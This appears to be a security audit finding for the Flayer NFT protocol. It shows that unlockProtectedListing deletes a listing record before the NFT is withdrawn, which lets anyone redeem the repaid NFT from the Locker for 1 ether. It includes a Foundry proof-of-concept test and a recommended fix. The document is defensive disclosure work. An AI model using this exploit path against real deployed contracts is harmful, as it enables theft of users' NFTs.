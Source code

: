 Ripe Zinc Duck

High

# Attacker can take out user's repaid protected listing NFT with only `1 ether`.

## Summary
`ProtectedListings.unlockProtectedListing()` function deletes `_protectedListings[_collection][_tokenId]` while not withdraw it from `Locker` when `_withdraw` parameter is `false`. Therefore, attacker can take out user's repaid protected listing NFT with only `1 ether` before user withdraw it.

## Vulnerability Detail
`ProtectedListings.unlockProtectedListing()` function is following.
```solidity
    function unlockProtectedListing(address _collection, uint _tokenId, bool _withdraw) public lockerNotPaused {
        // Ensure this is a protected listing
        ProtectedListing memory listing = _protectedListings[_collection][_tokenId];

        // Ensure the caller owns the listing
        if (listing.owner != msg.sender) revert CallerIsNotOwner(listing.owner);

        // Ensure that the protected listing has run out of collateral
        int collateral = getProtectedListingHealth(_collection, _tokenId);
        if (collateral < 0) revert InsufficientCollateral();

        // cache
        ICollectionToken collectionToken = locker.collectionToken(_collection);
        uint denomination = collectionToken.denomination();
        uint96 tokenTaken = _protectedListings[_collection][_tokenId].tokenTaken;

        // Repay the loaned amount, plus a fee from lock duration
        uint fee = unlockPrice(_collection, _tokenId) * 10 ** denomination;
        collectionToken.burnFrom(msg.sender, fee);

        // We need to burn the amount that was paid into the Listings contract
        collectionToken.burn((1 ether - tokenTaken) * 10 ** denomination);

        // Remove our listing type
        unchecked { --listingCount[_collection]; }

        // Delete the listing objects
314:    delete _protectedListings[_collection][_tokenId];

        // Transfer the listing ERC721 back to the user
        if (_withdraw) {
            locker.withdrawToken(_collection, _tokenId, msg.sender);
            emit ListingAssetWithdraw(_collection, _tokenId);
        } else {
            canWithdrawAsset[_collection][_tokenId] = msg.sender;
        }

        // Update our checkpoint to reflect that listings have been removed
        _createCheckpoint(_collection);

        // Emit an event
        emit ListingUnlocked(_collection, _tokenId, fee);
    }
```
The above function doesn't withdraw NFT when `_withdraw` parameter is `false`, but deletes `_protectedListings[_collection][_tokenId]` in `L314`.
In the meantime, `Locker.redeem()` function is following.
```solidity
    function redeem(address _collection, uint[] calldata _tokenIds, address _recipient) public nonReentrant whenNotPaused collectionExists(_collection) {
        uint tokenIdsLength = _tokenIds.length;
        if (tokenIdsLength == 0) revert NoTokenIds();

        // Burn the ERC20 tokens from the caller
        ICollectionToken collectionToken_ = _collectionToken[_collection];
        collectionToken_.burnFrom(msg.sender, tokenIdsLength * 1 ether * 10 ** collectionToken_.denomination());

        // Define our collection token outside the loop
        IERC721 collection = IERC721(_collection);

        // Loop through the tokenIds and redeem them
        for (uint i; i < tokenIdsLength; ++i) {
            // Ensure that the token requested is not a listing
223:        if (isListing(_collection, _tokenIds[i])) revert TokenIsListing(_tokenIds[i]);

            // Transfer the collection token to the caller
            collection.transferFrom(address(this), _recipient, _tokenIds[i]);
        }

        emit TokenRedeem(_collection, _tokenIds, msg.sender, _recipient);
    }
``` 
`Locker.isListing()` function of `L223` is following.
```solidity
    function isListing(address _collection, uint _tokenId) public view returns (bool) {
        IListings _listings = listings;

        // Check if we have a liquid or dutch listing
        if (_listings.listings(_collection, _tokenId).owner != address(0)) {
            return true;
        }

        // Check if we have a protected listing
447:    if (_listings.protectedListings().listings(_collection, _tokenId).owner != address(0)) {
            return true;
        }

        return false;
    }
```
Since `_protectedListings[_collection][_tokenId]` is already deleted in `ProtectedListings.sol#L314`, the condition of `L447` is `false` and `isListing()` function returns `false`. Therefore, attacker can take out user's repaid protected listing NFT by calling `Locker.redeem()` function.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_withdrawProtectedListingError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        // create protected listing for tokenId = 0
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // attacker can't take out protected listing
        locker.collectionToken(address(erc721a)).approve(address(locker), 1 ether);
        vm.expectRevert();
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user unlock protected listing without withdrawing
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 402055890410801920);
        protectedListings.unlockProtectedListing(address(erc721a), 0, false);

        // attacker can take out protected listing with only 1 ether
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user lost his NFT
        vm.expectRevert();
        protectedListings.withdrawProtectedListing(address(erc721a), 0);
    }
```
As can be seen above, attacker can take out user's repaid protected listing NFT with only `1 ether` before user withdraw it.

## Impact
In general, the price of protected listing NFT will be more than `1 ether`. However, attacker can take out user's repaid protected listing NFT with only `1 ether`. This means loss of funds for user.

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L314

## Tool used

Manual Review

## Recommendation
Don't delete `_protectedListings[_collection][_tokenId]` when `_withdraw` parameter is `false`. And then delete it in the `ProtectedListings.withdrawProtectedListing()` function.